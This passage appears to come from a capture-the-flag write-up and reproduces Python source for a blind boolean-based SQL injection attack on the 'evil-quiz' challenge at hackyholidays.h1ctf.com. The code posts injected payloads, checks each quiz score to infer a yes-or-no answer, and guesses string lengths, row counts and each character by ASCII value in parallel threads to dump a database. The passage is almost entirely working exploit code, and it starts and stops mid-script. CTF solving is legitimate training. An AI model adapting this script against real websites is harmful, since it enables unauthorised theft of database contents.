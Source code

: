 ```py

    # Send payload
    s.post('https://hackyholidays.h1ctf.com/evil-quiz', data=data)

    # Mandatory requests
    s.get('https://hackyholidays.h1ctf.com/evil-quiz/start')
    s.post('https://hackyholidays.h1ctf.com/evil-quiz/start', data={"ques_1": 0, "ques_2": 0, "ques_3": 0})

    res = s.get('https://hackyholidays.h1ctf.com/evil-quiz/score')
    if "is 0 other" not in res.text:
        return c
    return False

def inject(inj):
    global pool
    pool = Pool(POOL_WORKERS)

    for c in range(32,127):
        pool.apply_async(multi_request, [inj, c], callback=log_result)
    pool.close()
    pool.join()

def inject_len(query):
    global pool
    pool = Pool(POOL_WORKERS)

    for i in range(1, MAX_GUESS_LENGTH + 1):
        inj = "' AND (SELECT IF(LENGTH(({}))={}, 1, 0)); -- -".format(query, i)
        pool.apply_async(multi_request, [inj, i], callback=log_result)
    pool.close()
    pool.join()

def inject_count(query):
    global pool
    pool = Pool(POOL_WORKERS)

    for i in range(1, MAX_GUESS_LENGTH + 1):
        inj = "' AND (SELECT IF(({})={}, 1, 0)); -- -".format(query, i)
        pool.apply_async(multi_request, [inj, i], callback=log_result)
    pool.close()
    pool.join()

def sqli_query(query, length):
    for i in range(1, int(length) + 1):
        inj = "' AND (SELECT IF(ASCII(SUBSTR(({}),{},1))=[CHAR], 1, 0)); -- -".format(query, i)
        orig_output = len(output)
        inject(inj)
        updated_output = len(output)
        if orig_output == updated_output:
            break
    return get_result()

def sqli_len_query(query):
    if "COUNT(" in query:
        inject_count(query)
    else:
        inject_len(query)
    return get_result()

def full_enum():
    # Enumerate Schema Name
```